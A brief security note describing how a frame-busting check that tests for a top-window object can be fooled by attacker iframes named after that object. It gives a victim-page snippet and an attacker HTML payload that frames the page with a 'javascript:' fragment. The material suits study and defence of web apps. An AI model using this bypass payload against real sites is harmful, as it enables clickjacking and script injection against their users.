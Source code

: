 # Introduction
In some cases inner frames scripts will check for the existence of top frames objects. It is possible to fool the script by thinking the top window and the object is looking for is accessible by adding iframe elements with the name of the object itself.

## Details

http://vi.ct.im/page
```
 <script>
 if(top.globalObject!='someValue'){
   top.location=location.href.split('#')[0];
 }
</script>
```

top window
```
<iframe name='globalObject'></iframe>
<iframe src='http://vi.ct.im/page#javascript:JsHere'></iframe>
```
